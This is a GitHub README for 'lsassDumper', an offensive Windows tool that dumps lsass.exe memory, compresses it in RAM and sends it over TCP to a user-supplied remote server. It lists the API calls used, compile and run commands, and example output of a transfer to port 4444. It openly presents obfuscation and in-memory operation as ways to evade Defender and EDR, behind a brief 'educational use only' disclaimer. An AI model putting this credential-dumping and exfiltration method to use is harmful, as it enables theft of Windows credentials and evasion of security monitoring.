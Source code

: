 <h1 align="center"> Project lsassDumper </h1>

## Description

This program is designed to dump the memory of the `lsass.exe` process on a Windows system. The dumped memory is compressed using the **zlib** library and then sent as a compressed file to a remote server via a network connection. The program is particularly useful in situations where tools like Mimikatz cannot be used. All operations, including the memory dump and compression, are performed entirely in RAM to minimize detection by security solutions such as Defender and Endpoint Detection and Response (EDR) tools.

### Key Features

1. **Retrieve PID of `lsass.exe`**: The program identifies the `lsass.exe` process by its name using Windows API functions.
2. **Memory Dump**: It leverages `MiniDumpWriteDump` to extract the memory contents of the process.
3. **Data Compression**: The dumped data is compressed in RAM using the **zlib** library to minimize the file size.
4. **Network Transmission**: The compressed data is transmitted over a TCP connection to a specified remote server.
5. **Obfuscation**: To evade basic analysis, the name of the target process (`lsass.exe`) is obfuscated in the source code.

## Prerequisites

### Environment
- **Windows** operating system.
- **Compiler**: A compiler capable of handling Windows APIs, such as MinGW or Visual Studio.

### Required Libraries
- **zlib**: For compressing the dumped memory.
- **DbgHelp**: For accessing `MiniDumpWriteDump` functionality.
- **Winsock2**: For enabling TCP/IP communication.

## How It Works

1. **Process Identification**:
   - The program takes the encoded string for `lsass.exe` and decodes it.
   - Using `CreateToolhelp32Snapshot` and `Process32First/Next`, it identifies the `lsass.exe` process by name and retrieves its Process ID (PID).

2. **Memory Dump**:
   - It opens the target process using `OpenProcess` with the required privileges.
   - Dumps the process memory directly into a buffer in RAM using `MiniDumpWriteDump`.

3. **Compression**:
   - The dumped data is compressed entirely in RAM using `zlib` to ensure no sensitive data is written to disk.

4. **Data Transmission**:
   - The compressed data is sent to a remote server over a TCP connection.
   - The server's IP and port are provided by the user during execution.

## Compilation

### Steps with MinGW
1. Ensure MinGW is installed and correctly configured on your system.
2. Compile the source file `memdump.c` using the following command:

   ```bash
   g++ -o memdump.exe memdump.c -lz -lws2_32 -ldbghelp
   ```

### Steps with Visual Studio
1. Open the `memdump.c` file in Visual Studio.
2. Add the required libraries (`DbgHelp.lib`, `ws2_32.lib`) to the project settings.
3. Build the project to generate the executable.

## Usage

1. Run the compiled executable as an administrator (administrator rights are required to access `lsass.exe`).

   ```bash
   memdump.exe
   ```

2. When prompted, provide the IP address and port of the remote server to which the compressed dump will be sent.

3. The program:
   - Identifies the `lsass.exe` process.
   - Dumps the memory contents into a buffer stored in RAM.
   - Compresses the data using `zlib`.
   - Transmits the compressed data to the specified remote server.

### Example Output

```plaintext
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 4444
[+] Memory dump completed. Size: 16777216 bytes.
[+] Compression completed. Compressed size: 524288 bytes.
[+] Sent 524288 bytes to server.
[+] Done!
```

## Automating with `run.sh`

The `run.sh` script simplifies the process by automating dependency installation, compilation, and execution. It ensures the necessary libraries are installed and the program is compiled and executed in a streamlined manner.

### Usage of `run.sh`

1. Make the script executable:
   ```bash
   chmod +x run.sh
   ```

2. Execute the script:
   ```bash
   ./run.sh
   ```

The script handles dependency installation, compiles `memdump.c` into `memdump.exe`, and executes it seamlessly.

## Warnings

- **For Legal and Educational Use Only**: This program is intended solely for educational purposes or diagnostic use on systems you own or manage, or as part of authorized audits.
- **Administrator Privileges Required**: Ensure you have administrative rights to run this program.
- **Security Detection**: While the program minimizes detection risks by performing operations entirely in RAM and using basic obfuscation, advanced security solutions may still flag it.

## Dependencies

- **zlib**: [zlib.net](https://zlib.net) - For data compression.
- **DbgHelp**: Included with the Windows SDK - For `MiniDumpWriteDump` functionality.
- **Winsock2**: Built into Windows - For network communication.

## Contributions
Contributions to enhance this program or suggest optimizations are welcome. Please create a pull request or open an issue to share your ideas.
